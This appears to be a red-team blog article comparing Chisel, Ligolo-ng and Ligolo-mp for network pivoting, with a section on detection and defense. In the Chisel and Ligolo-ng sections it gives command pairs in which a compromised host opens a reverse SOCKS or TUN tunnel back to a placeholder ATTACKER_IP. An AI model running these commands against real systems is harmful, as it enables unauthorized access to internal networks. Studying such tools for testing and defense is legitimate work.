

## TL;DR

- Use **Chisel** when you need a quick, reliable first tunnel.
- Use **Ligolo-ng** when you need broader, smoother internal pivoting.
- Use **Ligolo-mp** when you need to manage multiple agents/routes at scale.

In real-world 2026 operations, the most reliable pattern is:
**initial foothold = Chisel**, **lateral expansion = Ligolo-ng**, **multi-segment operations = Ligolo-mp**.

---

## What “latest” means in this article

Here, “latest” refers to **widely used operational practices as of 2026** (offense and defense). Exact version numbers can change quickly, so always verify upstream release notes before execution.

---

## Role differences across the three tools

| Tool | Main purpose | Traffic model | Typical use case |
|---|---|---|---|
| Chisel | Port forwarding / SOCKS | HTTP(S) over WebSocket | Fast initial foothold, one-off forwarding |
| Ligolo-ng | Transparent L3/L4-style pivoting | TUN-based tunnel | Natural routing for Nmap/SMB/RDP/WinRM |
| Ligolo-mp | Multi-hop/multi-agent Ligolo operations | Multi-agent route management | Concurrent multi-segment campaigns |

---

## Chisel — lightweight and great for “getting a path first”

### Strengths

- Single binary, easy to drop and run.
- Quick SOCKS exposure with `R:socks`.
- Easy to blend with outbound HTTP/HTTPS channels.

### Weaknesses

- Route management gets messy at larger scale.
- More chained proxies means more latency and more failure points.

### Minimal example

```bash
# Attacker
chisel server -p 9001 --reverse

# Compromised host
./chisel client ATTACKER_IP:9001 R:socks
```

---

## Ligolo-ng — make internal networks feel “local”

### Strengths

- TUN interface removes per-app SOCKS setup.
- More natural workflow for scanning and service access.
- Easier expansion into multiple subnets.

### Weaknesses

- Initial setup needs TUN/routing familiarity.
- Bad route design can cause conflicts.

### Minimal connection image

```bash
# Attacker-side proxy
./proxy -selfcert

# Compromised host agent
./agent -connect ATTACKER_IP:11601 -ignore-cert
```

After connecting, create TUN and add routes on the operator side.

---

## Ligolo-mp — an orchestration layer for complex pivoting

Ligolo-mp helps run Ligolo-style pivoting beyond a single session by improving **multi-hop pathing**, **multi-agent visibility**, and **route switching**.

### Best fit

- Multiple footholds appear across different segments.
- Reachability differs by host/segment and paths need frequent switching.
- Multi-operator teams need consistent state sharing.

### Caveats

- More operational convenience means more moving parts.
- Logging, route ownership, and permissions must be planned first.

---

## Mermaid sequence (initial foothold → multi-hop pivot)



---

## Practical decision flow

1. If the first tunnel is fragile, start with Chisel.
2. When internal operations become broader, migrate to Ligolo-ng.
3. When running multiple routes/agents, introduce Ligolo-mp.

A phased transition is usually more reliable than forcing one tool from start to finish.

---

## Detection and defense notes

### Network signals

- Long-lived outbound TLS/HTTP sessions from unusual hosts.
- Periodic beacon-like traffic to non-business destinations.
- Sudden host behavior that resembles internal routing.

### Host signals

- Suspicious tunneling binaries (`chisel`, `agent`, or renamed variants).
- New services/scheduled tasks for persistence.
- TUN/TAP creation, route additions, firewall rule changes.

### Operational controls

- EDR behavior rules for tunnel/pivot patterns.
- Strict outbound allowlists (egress filtering).
- Tight inter-segment ACLs to reduce pivot opportunities.

---

## Conclusion

- **Chisel** excels at fast initial access paths.
- **Ligolo-ng** improves operator productivity inside internal networks.
- **Ligolo-mp** helps sustain complex, multi-agent campaigns.

In practice, success depends less on tool fandom and more on **phase-aware switching strategy**.
